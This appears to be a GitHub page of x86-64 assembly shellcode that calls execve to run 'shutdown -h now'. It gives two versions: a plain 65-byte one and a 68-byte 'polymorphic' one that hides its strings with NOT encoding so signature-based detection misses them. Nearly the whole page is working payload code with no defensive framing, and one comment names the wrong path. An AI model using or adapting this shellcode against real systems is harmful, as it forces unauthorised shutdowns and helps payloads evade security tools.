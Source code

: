 ## shutdown -h now 

The original code is as follow :  
**Size : 65 bytes**
```nasm
	xor rax, rax
	xor rdx, rdx 		     ; RAX, RDX set 0

	push rax		     ; '\x00'
	push byte 0x77		     ; 'w'
	push word 0x6f6e             ; 'on'
	mov rbx, rsp		     ; RBX point to "now"

	push rax		     ; '\x00'
	push word 0x682d 	     ; 'h-'
	mov rcx, rsp		     ; RCX point to "-h"

	push rax                    ; '\x00'
	mov r8, 0x2f2f2f6e6962732f  ; ///nibs/
	mov r10, 0x6e776f6474756873 ; nwodtuhs
	push r10		
	push r8
	mov rdi, rsp	            ; RDI point to "/sbin///shutdown"

	push rdx
	push rbx
	push rcx
	push rdi
	mov rsi, rsp		    ; RSI point to ["/bin///shutdown","-h","now']

	add rax, 59		    ; execve syscall
	syscall			    ; syscall exec
```

Polymorphic version :  
**Size : 68 bytes (+3 bytes)**
```nasm
	mov rax, 0xff889091ffff97d2	; string not encoded
	not rax				; decode
	push rax			 
	lea rcx, [rsp+4]		; RCX point to "now\x00"
	mov rsi, rsp			; RSI point to "-h\x00"

	mov rax, 0xff9188909b8b8a97	; string not encoded
	not rax				; decode
	push rax
	mov rax, 0x8cd0d091969d8cd0	; string not encoded
	not rax				; decode
	push rax
	mov rdi, rsp			; RDI point to "/sbin//shutdown\x00"

	cdq				; RDX null pointer
	push rdx			; array terminator
	push rcx
	push rsi
	push rdi
	lea rsi, [rsp]			; RSI point to argv[]

	mov eax, edx
	mov al, 59			; execve syscall value
	syscall				; exec execve
```
